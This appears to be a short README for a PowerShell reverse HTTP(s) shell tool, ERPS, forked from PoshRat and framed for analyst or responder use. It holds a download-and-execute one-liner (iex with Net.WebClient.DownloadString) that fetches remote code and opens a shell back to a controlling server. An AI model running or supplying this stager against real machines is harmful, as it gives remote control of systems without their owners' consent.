 # Endpoint Remote/Reverse PowerShell (ERPS)

## PowerShell Reverse HTTP(s) Shell

1. Invoke _erps.ps1_ on a server you control. (Note: Requires Admin rights to listen on ports.)

2. Use the Elevate console to send the ERPS Connect script package to the target. The script package will execute the code below and connect back to the analyst machine. 
```PowerShell
   iex (New-Object Net.WebClient).DownloadString("http://server/connect")
```

Based on PoshRat By Casey Smith @subTee, updated by/forked from [ru-faraon](https://github.com/ru-faraon)
